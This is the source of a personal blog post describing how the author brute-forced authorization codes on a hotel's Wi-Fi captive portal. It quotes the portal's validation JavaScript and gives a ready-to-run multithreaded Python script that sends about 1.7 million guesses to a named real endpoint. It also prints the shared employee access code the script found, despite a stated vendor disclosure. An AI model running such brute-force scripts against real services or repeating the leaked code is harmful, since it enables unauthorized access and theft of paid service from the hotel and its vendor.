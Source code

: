 ```yaml
---
layout: post
title: "How I Got Free Wi-Fi at a Hotel"
date: 2016-09-11T00:05:43-04:00
---
```

*Full Disclosure: I still paid for internet and contacted Intello about the vulnerability.*

Recently I visited Blue Mountain, and I wanted to see if I could avoid paying $15 per day per device for internet access. Once you connect to their network, they present 3 options to purchase internet access:

  1. Enter your credit card information and get billed directly.
  2. Enter your room number and name and have the charge applied to your room.
  3. Enter an authorization code.

I pursued option 3, and decided to crack an authorization code through brute-force. I looked through the html/javascript and found that it wasn't minified, so it was easy to see the logic. The submit button triggers a javascript function that uses JQuery to get the value of the auth code field, and it makes an HTTP GET request where the auth code is a query parameter. The result is a JSON object, and if the property "status" is 2, then it is a valid auth code. This endpoint was very fast, and didn't have any special encoding or security measurements in place. On the website it said that authorization codes are case insensitive, and I made the assumption that they were alphanumeric. 

{% highlight javascript %}
$.ajax({
    url: "http://portal.ihotel.ca/GuestsAPI?function=ValidateAuthCode&iHotelAuthCode=" + $('#iHotel_Authcode').val() + "&iHotelLocation=" + iHotel_location_id,
    cache: false,
    success: function(data) {
        switch (data.status) {
            case 0:
                iHotelBlockUI("error-text", "We are sorry, but the code you have entered is not registered. If you have misspelled the authorization code, please try again, otherwise please contact the hotel front desk to receive a new authorization code. <p><small>The authorization code is not case sensitive.</small></p>[IHCC005]", "error-lightbox");
                break;
            case 1:
                iHotelBlockUI("error-text", "Maximum number of devices reached for this transaction. Please contact the front desk to obtain an authorization code.(IHCC032)", "error-lightbox");
                break;
            case 2:
                //Code is valid, let's try to authorize it
                //alert("Will use: "+data.location_id);
                if (data.location_id) {
                    $("#iHotel_Authcode_location_id").val(data.location_id);
                }
                LoadingShow();
                $('#iHotel_AuthCode_Form').submit();
                break;
            case 3:
                //Code is valid, in an allowed roaming location, let's use it.
                $("#iHotel_Authcode_location_id").val(data.location_id);
                $("#iHotel_AuthCode_Form").submit();
                break;
            default:
                iHotelBlockUI("error-text", "An error occured, please contact the front desk to obtain an authorization code.(IHCC031)", "error-lightbox");
        }
    },
    error: function(data) {
        iHotelBlockUI("error-text", "An error occured, please contact the front desk to obtain an authorization code.(IHCC031)", "error-lightbox");
    }
});
{% endhighlight %}

I wrote a python script to try all alphanumeric auth codes of length 4 and let it run for about 30 minutes. This was a multithreaded script using 200 threads, making a total of 1.7 million requests. The script stumbled upon `ends`, which turned out to be an authorization code that employees of Blue Mountain share to get internet access. I entered this code into the landing page and it worked. Free internet access after a half-hour of password cracking.

{% highlight python %}
from urlparse import urlparse
from threading import Thread
import httplib, sys, urllib2, urllib
from Queue import Queue
numThreads = 200
url1 = "http://portal.ihotel.ca/GuestsAPI?function=ValidateAuthCode&iHotelAuthCode="
url2 = "&iHotelLocation=BlueMountainGuests"
letters = ["a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"]

def doWork():
  while True:
    code = q.get()
    status, url = getStatus(code)
    doSomethingWithResult(status, url)
    q.task_done()

def getStatus(code):
  try:
    conn = httplib.HTTPConnection("portal.ihotel.ca")
    params = {"function": "ValidateAuthCode", "iHotelAuthCode": code, "iHotelLocation": "BlueMountainGuests"}
    conn.request("GET", "/GuestsAPI?function=ValidateAuthCode&iHotelAuthCode=" + code + "&iHotelLocation=BlueMountainGuests")
    res = conn.getresponse()
    val = res.read()
    conn.close()
    return val, code
  except:
    return "error", code

def doSomethingWithResult(result, code):
  print code 
  if "Invalid" not in result:
    print result, code
    sys.exit(1)

q = Queue(numThreads * 2)
for i in range(numThreads):
  t = Thread(target=doWork)
  t.daemon = True
  t.start()
try:
  for n in range(36**4):
    n = n + 36**4
    code = ""
    while n > 0:
      code = letters[n%36] + code
      n = int(n / 36)
    code = code[1:]
    q.put(code)
  q.join()
except KeyboardInterrupt:
  sys.exit(1)
{% endhighlight %}

{% include disqus.html %}

